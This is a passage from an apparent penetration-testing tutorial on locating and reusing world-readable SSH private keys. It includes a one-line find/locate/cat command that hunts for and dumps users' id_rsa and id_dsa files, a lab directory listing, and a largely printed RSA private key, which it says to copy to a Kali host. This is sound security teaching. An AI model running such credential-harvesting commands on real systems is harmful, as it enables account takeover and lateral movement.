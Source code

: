 Public and private keys are generally stored in one of the following locations:
````
/root/.ssh/
/home/user_name/.ssh/ (users home directory)
/etc/ssh/
````

in the paths specified in the ssh_config or sshd_config config files
The following command can be used to identify any existing public or private keys and their permissions:

````
ls -la /home /root /etc/ssh /home/*/.ssh/; locate id_rsa; locate id_dsa; find / -name id_rsa 2> /dev/null; find / -name id_dsa 2> /dev/null; find / -name authorized_keys 2> /dev/null; cat /home/*/.ssh/id_rsa; /home/*/.ssh/id_dsa
````

### Readable Private Keys
As mentioned earlier, private keys are used by users to authenticate via SSH. If a private key is stored in a way that makes it accessible to the current user, this means it can be used to perform an authentication as the owner of the private key.

Using the command mentioned earlier, the system has flagged that the private key for the "alice" user is readable to all users:

````bash
/home/alice/.ssh $ ls -la
total 20
drwxr-xr-x 2 msfadmin msfadmin 4096 2010-05-17 21:43 .
drwxr-xr-x 7 msfadmin msfadmin 4096 2022-06-17 06:25 ..
-rwxr-xr-x 1 msfadmin msfadmin  609 2010-05-07 14:38 authorized_keys
-rwxr-xr-x 1 msfadmin msfadmin 1675 2010-05-17 21:43 id_rsa
-rwxr-xr-x 1 msfadmin msfadmin  405 2010-05-17 21:43 id_rsa.pub

````

The easiest way to exploit this is to simply copy the key over to a Kali host, either by using one of the techniques shown in this article, or by simply copying and pasting the contents of the file. For the purpose of this guide I will be copying the key to a new file in Kali using Vim:

````bash
/hopme/alice/.ssh $ cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEoQIBAAKCAQEApmGJFZNl0ibMNALQx7M6sGGoi4KNmj6PVxpbpG70lShHQqld
JkcteZZdPFSbW76IUiPR0Oh+WBV0x1c6iPL/0zUYFHyFKAz1e6/5teoweG1jr2qO
ffdomVhvXXvSjGaSFwwOYB8R0QxsOWWTQTYSeBa66X6e777GVkHCDLYgZSo8wWr5
JXln/Tw7XotowHr8FEGvw2zW1krU3Zo9Bzp0e0ac2U+qUGIzIu/WwgztLZs5/D9I
yhtRWocyQPE+kcP+Jz2mt4y1uA73KqoXfdw5oGUkxdFo9f1nu2OwkjOc+Wv8Vw7b
wkf+1RgiOMgiJ5cCs4WocyVxsXovcNnbALTp3wIBIwKCAQBaUjR5bUXnHGA5fd8N
...
Fb3Yq4pdHm7AosAgtfC1eQi/xbXP73kloEmg39NZAfT3wg817FXiS2QGHXJ4/dmK
94Z9XOEDocClV7hr9H//hoO8fV/PHXh0oFQvw1d+29nf+sgWDg==
-----END RSA PRIVATE KEY-----
````

In order for the private key to be accepted by SSH, it needs to be only readable and writable only by its owner, otherwise it will complain that the permissions applied are too open.
